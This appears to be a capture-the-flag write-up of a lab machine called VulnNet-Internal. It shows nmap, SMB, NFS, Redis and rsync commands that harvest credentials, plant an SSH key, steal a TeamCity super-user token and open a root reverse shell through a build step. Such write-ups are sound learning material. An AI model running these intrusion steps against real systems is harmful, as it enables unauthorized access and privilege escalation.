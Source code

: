 ## Enumeration

Starting with nmap
```bash
Nmap scan report for 10.10.30.99                                                                                                                                  [29/40]
Host is up (0.21s latency).                                                         
                                                                                    
PORT     STATE    SERVICE     VERSION                                               
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                               
| ssh-hostkey:                                                                      
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)                      
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)                     
|_  256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)                                                                                                        
111/tcp  open     rpcbind     2-4 (RPC #100000)                                     
| rpcinfo:                              
|   program version    port/proto  service                                                                                                                               
|   100000  2,3,4        111/tcp   rpcbind                                          
|   100000  2,3,4        111/udp   rpcbind                                          
|   100000  3,4          111/tcp6  rpcbind                                          
|   100000  3,4          111/udp6  rpcbind                                                                                                                               
|   100003  3           2049/udp   nfs                                              
|   100003  3           2049/udp6  nfs  
|   100003  3,4         2049/tcp   nfs                                              
|   100003  3,4         2049/tcp6  nfs                                              
|   100005  1,2,3      37917/tcp6  mountd                                           
|   100005  1,2,3      38732/udp   mountd                                           
|   100005  1,2,3      38765/tcp   mountd                                           
|   100005  1,2,3      59433/udp6  mountd                                           
|   100021  1,3,4      33219/udp6  nlockmgr                                         
|   100021  1,3,4      37285/tcp   nlockmgr                                         
|   100021  1,3,4      45515/tcp6  nlockmgr                                         
|   100021  1,3,4      59572/udp   nlockmgr                                         
|   100227  3           2049/tcp   nfs_acl                                                                                                                               
|   100227  3           2049/tcp6  nfs_acl                                          
|   100227  3           2049/udp   nfs_acl                                          
|_  100227  3           2049/udp6  nfs_acl 
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp  open     rsync       (protocol version 31)
2049/tcp open     nfs_acl     3 (RPC #100227)
9090/tcp filtered zeus-admin
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -40m00s, deviation: 1h09m16s, median: -1s
|_nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2021-05-08T08:52:56+02:00 
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-08T06:52:56
|_  start_date: N/A
```

We have few ports open. Lets start poking at them.

### SMB
```bash
smbclient -L //10.10.30.99
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        shares          Disk      VulnNet Business Shares
        IPC$            IPC       IPC Service (vulnnet-internal server (Samba, Ubuntu))
```

We have read access to shares directory. Looking at it, we found few files but nothing much interesting except the flag.

### NFS
Check what share is available to mount
```bash
showmount -e 10.10.30.99
Export list for 10.10.30.99:
/opt/conf *
```

We can mount this share to access it on our local machine. Simply, `mount 10.10.30.99:/opt/conf <our_mount_dir>`. Now we can access the files locally
```bash
hp
init
opt
profile.d
redis
vim
wildmidi
```
Few interesting files here. The *hp* folder, seems like a printer configuration file. We found an interesting file, redis folder which contains *redis.conf* file. But our nmap didnt find redis server running, running nmap for all ports, it found port 6379 running.
Looking at redis.conf file, we found the authentication password.
```
requirepass : B65Hx562F@ggAZ@F
```

We can now interact with redis server. Connect to it using *nc*, `nc IP 6379`.
```bash
nc 10.10.30.99 6379                                                                                    
auth B65Hx562F@ggAZ@F                                                                                                                                                    
+OK                                                                                                                   

keys *                                                                                                                                                                   
*5                                                                                                                                                                       
$8                                                                                                                                                                       
authlist                                                                                                                                                                 
$10                                                                                                                                                                      
marketlist                                                                                                                                                               
$3                                                                                                                                                                       
int                                                                                                                                                                      
$3                                                                                                                                                                       
tmp
$13
internal flag

dump "internal flag"
FLAG

# it does seems like base64 string with some extra data appended ( coz I dont know how to interact with redis that good enough.)
dump authlist
$156
@Ac @pQXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==srFX"R

# We can list the above info using this
type authlist
+list
lrange authlist 1 100
```

Decoding the base64 string we found password for rsync
```bash
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
```

### RSYNC
```bash
rsync rsync://rsync-connect@10.10.30.99
files           Necessary home interaction

rsync rsync://rsync-connect@10.10.30.99/files/sys-internal                                       
Password: 
drwxr-xr-x          4,096 2021/02/06 18:19:29 sys-internal

rsync rsync://rsync-connect@10.10.30.99/files/sys-internal/
Password: 
drwxr-xr-x          4,096 2021/02/06 18:19:29 .
...[snip]...
-rw-------             38 2021/02/06 17:24:25 user.txt
drwxrwxr-x          4,096 2021/05/08 13:15:17 .ssh
```

We have .ssh folder but it was empty. No problem, we can upload our public key into it. Rename our public key to *authorized_keys* and upload it
```bash
rsync authorized_keys rsync://rsync-connect@10.10.30.99/files/sys-internal/.ssh/
```

Now we can ssh into the box.

# ROOT
Running linpeas didn't find any usefull information. Looking at the listening ports
```bash
$ ss -ltnp
tcp              LISTEN             0                  100                              [::ffff:127.0.0.1]:8111                                       *:* 
```
This port was running a webserver, which we can confirm using curl/wget.

Also there was a folder name `TeamCity` in the root directory which was being run by root. This could be potential priv esc vector.
It was running on localhost, we can forward the port to us
```bash
ssh -i ../sys -L 8000:127.0.0.1:8111 sys-internal@10.10.30.99
```

Now we can access the webserver  on our localhost port 8000. It needs authentication, but we dont have any creds. Trying earlier found passwords and default but nothing.
Looking at logs directory in the Teamcity folder, we found a log
```bash
Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
Super user authentication token: 9020742256179529134 (use empty username with the token as the password to access the server)
```

Trying out the latest one, and it got accepted. We have super-user rights on it. 
We can make a project. For priv esc, we need to make a project -> build configuration -> build steps. Run a python script for reverse shell.

![image](https://user-images.githubusercontent.com/43528306/117533778-4776db80-b00c-11eb-9a88-e3157ef4c060.png)


Set-up  a listner and we got connection back.
ROOT!!




